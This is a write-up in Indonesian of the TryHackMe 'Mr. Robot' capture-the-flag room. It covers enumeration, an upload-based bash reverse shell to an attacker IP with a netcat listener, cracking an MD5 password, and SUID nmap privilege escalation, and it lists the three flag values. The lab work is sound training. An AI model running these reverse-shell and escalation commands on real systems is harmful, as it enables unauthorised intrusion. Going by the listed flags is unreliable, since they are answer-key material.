 # 🕵️ Mr. Robot CTF – TryHackMe

**Nama:** Jonathan Jethro  
**Tanggal:** 4 Mei 2025  
**Link Room:** [https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)

---

## 📌 Pendahuluan

Mr. Robot adalah CTF dari TryHackMe yang terinspirasi dari serial TV populer.  
Tujuan utama adalah mendapatkan ketiga flag tersembunyi melalui tahapan:

- Web enumeration  
- Eksploitasi login  
- Privilege escalation

---

## 🔍 Enumerasi

### Nmap Scan

```bash
nmap -sC -sV -oA scans/initial 10.10.180.146
```
Port terbuka:

80 (HTTP)

443 (HTTPS)

Situs menampilkan tema Mr. Robot.

robots.txt
makefile
Copy
Edit
User-agent: *
fsocity.dic
key-1-of-3.txt
Ditemukan wordlist fsocity.dic dan flag pertama.

## 🎯 Eksploitasi Login
Setelah brute-force menggunakan fsocity.dic, ditemukan:

Username: elliot

Namun login berhasil dengan metode:

Menemukan halaman vulnerable upload.

Mengirim reverse shell (bash payload).

Mendengarkan dengan netcat.

bash
Copy
Edit
# Reverse shell payload
bash -i >& /dev/tcp/10.9.0.247/4444 0>&1

# Listener (attacker)
nc -lvnp 4444

Shell berhasil dengan user: daemon.

🧑‍💻 Privilege Escalation ke robot
Ditemukan file password:

bash
Copy
Edit
cat /home/robot/password.raw-md5
Isi:

nginx
Copy
Edit
c3fcd3d76192e4007dfb496cca67e13b
Didekripsi menggunakan CrackStation:

Password: abcdefghijklmnopqrstuvwxyz

Login:

bash
Copy
Edit
su robot
Berhasil menjadi user robot, ditemukan flag kedua.

🔝 Privilege Escalation ke Root
User robot tidak punya akses sudo.
Lalu dicari file SUID:

bash
Copy
Edit
find / -perm -4000 -type f 2>/dev/null
Ditemukan:

swift
Copy
Edit
/usr/local/bin/nmap
Masuk ke mode interaktif:

bash
Copy
Edit
/usr/local/bin/nmap --interactive
nmap> !sh
Berhasil mendapatkan shell sebagai root dan mengambil flag ketiga.

🏁 Flag Capture
Flag	Lokasi	Isi
1	/key-1-of-3.txt	073403c8a58a1f80d943455fb30724b9
2	/home/robot/key-2-of-3.txt	822c73956184f694993bede3eb39f959
3	/root/key-3-of-3.txt	04787ddef27c3dee1ee161b21670b4e4

✅ Kesimpulan
CTF ini mengajarkan teknik penting dalam pentesting:

Enumerasi file tersembunyi dan wordlist

Reverse shell manual

Cracking password MD5

Privilege escalation via SUID binary (nmap --interactive)

📸 Screenshots
Lihat folder screenshots/ untuk gambar pendukung flag.

📄 Versi PDF
Tersedia juga dalam format PDF untuk dilihat secara offline.
